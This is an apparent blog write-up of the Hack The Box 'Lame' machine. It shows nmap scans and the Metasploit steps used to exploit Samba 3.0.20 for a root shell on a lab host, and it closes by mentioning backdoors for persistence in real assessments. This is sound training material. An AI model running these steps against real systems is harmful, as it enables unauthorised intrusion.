 ```yaml
---
title: "HTB | LAME"
date: 2024-08-07 00:00:00 +0800
categories: [HTB]
tags: [Linux]                    
---
```


![img-description](/assets/img/HTB/htb.png)

## Initial Access - Vulnerable SMB version + Metasploit

**Vulnerability Explanation:** A vulnerable version of SMB (Samba 3.0.20) is running on the target machine. A publicly available exploit is available and can be used to gain access to the machine.

**Vulnerability Fix:** Upgrade the vulnerable SMB server to a non-vulnerable patch.

**Severity:** Critical

**Steps to reproduce the attack:** Christian perform port enumeration and service enumeration and found port 445 was running Samba 3.0.20. He was able to use an exploit on Metasploit to gain initial access.

**Port Scan Results**

**TCP:** 21, 22, 139, 445, 3632

**UDP:** N/A

Use nmap to scan the target for open ports.

TCP ports 21, 22, 139, 445, 3632 were discovered.

```shell
nmap -p- -T5 -vvv -oN nmap.initial 10.10.10.3
```

![img-description](/assets/img/HTB/LAME/1.png)

Further enumerating the open ports reveals the version of SMB running on the machine. Samba 3.0.20

```shell
nmap -v -A -p21,22,139,445,3632 -oN nmap.service 10.10.10.3
```

![img-description](/assets/img/HTB/LAME/2.png)
Use Metasearch for the exploit and use it.

```shell
sudo msfconsole
```

```
search samba 3.0.20
```

```
use 0
```

![img-description](/assets/img/HTB/LAME/3.png)
Configure the exploit then run it to get a shell on the target.

```
set RHOSTS 10.10.10.3
```

```
set LHOST 10.10.16.10
```

```
run
```

![img-description](/assets/img/HTB/LAME/4.png)

We have successfully got initial access to the machine as ‘root’.

‘root’ is a high privileged user so privilege escalation is not needed.


## Privilege Escalation - N/A

**Vulnerability Explanation:** N/A

**Vulnerability Fix:** N/A

**Severity:** N/A

**Steps to reproduce the attack:** N/A

## Post Exploitation

Since this is a CTF the objective is only to retreive the flag located in the /root directory as a privileged user. 

In a real world assessment, we would attempt to add a back door for continuous access to the machine.